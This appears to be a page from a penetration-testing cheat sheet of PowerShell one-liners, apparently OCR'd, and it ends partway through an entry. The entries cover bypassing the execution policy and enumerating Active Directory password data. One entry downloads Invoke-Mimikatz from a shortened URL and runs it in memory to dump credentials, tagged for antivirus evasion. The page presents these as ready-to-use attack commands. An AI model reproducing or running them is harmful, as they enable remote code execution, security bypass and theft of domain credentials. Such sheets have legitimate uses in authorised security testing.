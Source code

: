 ### 1. powershell bypass block
```
Set-ExecutionPolicy unrestricted
```
**- Windows,powershell**
#### References:

https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/
__________
### 2. powershell bypass block
```
powershell.exe -noprofile -executionpolicy bypass
```
**- Windows,powershell**
#### References:

https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/
__________
### 3. Invoke mimicatz, can use with psexec for pwnage
```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/1qMn59d'); Invoke-Mimikatz -DumpCreds"
```
**- passwords,Windows,av evasion,powershell**
#### References:

http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html
https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz
__________
### 4. Powershell password last changed, run on DC
```
Get-ADUser -filter * -properties * | sort-object passwordlastset | select-object samaccountname, passwordlastset, passwordneverexpires, homedirectory, mail, enabled | Export-csv -path c:\temp\pwprofile.csv
```
**- enumeration,user information,Windows,powershell**
#### References:

https://yg.ht
https://www.reddit.com/r/sysadmin/comments/3y0pad/some_ad_checks_you_should_be_running_on_a_regular/
__________
### 5. powershell wget
```
invoke-webrequest
```
**- files,Windows,powershell**
#### References:
